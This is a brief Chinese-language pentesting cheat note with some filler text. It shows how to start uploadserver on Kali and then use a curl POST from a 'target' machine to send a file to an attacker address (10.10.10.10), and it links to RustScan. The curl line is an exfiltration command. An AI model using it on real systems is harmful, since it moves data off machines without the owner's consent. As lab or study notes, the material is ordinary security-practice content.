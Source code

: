 asdfasdfas
哈哈<BR>![图片alt](images/ttte.png)

利用 uploadserver 從目標上傳檔案到kali<BR>```
# kali端:
pip install uploadserver
python3 -m uploadserver

# 目標端:
curl -X POST http://10.10.10.10:8000/upload -F "files=@myfile.zip"
```

[https://github.com/RustScan/RustScan/releases/](https://github.com/RustScan/RustScan/releases/)  
https://github.com/RustScan/RustScan/wiki/Installation-Guide

